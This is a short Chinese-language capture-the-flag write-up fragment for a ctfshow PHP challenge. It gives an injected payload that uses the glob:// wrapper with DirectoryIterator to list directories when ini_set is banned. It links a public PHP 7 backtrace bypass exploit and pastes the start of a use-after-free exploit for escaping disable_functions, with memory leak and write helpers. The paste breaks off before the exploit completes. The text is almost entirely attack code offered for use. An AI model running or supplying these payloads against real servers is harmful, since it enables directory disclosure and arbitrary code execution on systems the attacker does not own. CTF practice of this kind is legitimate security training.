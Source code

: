 发现ini_set被ban了，这里利用glob伪协议绕过查看目录

```
c=?><?php $a=new directoryiterator("glob:///*"); foreach($a as $f) {echo($f->__tostring().' '); } exit(0); ?>
```

这个：[exploits/exploit.php at master · mm0r1/exploits (github.com)](https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php)

还有群主给的uaf：

```php
c=function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

```